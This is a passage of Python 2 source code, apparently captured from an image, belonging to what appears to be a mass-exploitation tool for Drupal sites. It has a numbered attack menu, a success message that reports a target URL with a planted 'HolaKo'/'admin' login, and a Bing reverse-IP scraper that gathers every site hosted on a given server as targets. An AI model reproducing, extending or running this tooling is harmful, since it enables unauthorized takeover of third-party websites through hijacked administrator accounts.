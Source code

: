                     url + "\n" + "[-]username:HolaKo\n[-]password:admin\n")

            else:
                print i + "=> exploit not found "
        except Exception as ex:
            print ex


def maine():

    print minu
    choose = raw_input("choose a number : ")
    while True:

        if choose == "1":
            drupal()
        if choose == "2":
            getdrupal()
        if choose == "3":
            drupallist()
        if choose == "4":
            about()
        if choose == "99":
            menu()
        con = raw_input('Continue [Y/n] -> ')
        if con[0].upper() == 'N':
            exit()
        if con[0].upper() == 'Y':
            maine()


def unique(seq):
    seen = set()
    return [seen.add(x) or x for x in seq if x not in seen]


def bing_all_grabber(s):
    lista = []
    page = 1
    while page <= 101:
        try:
            bing = "http://www.bing.com/search?q=ip%3A" + \
                s + "+&count=50&first=" + str(page)
            openbing = urllib2.urlopen(bing)
            readbing = openbing.read()
            findwebs = re.findall('<h2><a href="(.*?)"', readbing)
            for i in range(len(findwebs)):
                allnoclean = findwebs[i]
                findall1 = re.findall('http://(.*?)/', allnoclean)
                for idx, item in enumerate(findall1):
                    if 'www' not in item:
                        findall1[idx] = 'http://www.' + item + '/'
                    else:
                        findall1[idx] = 'http://' + item + '/'
                lista.extend(findall1)
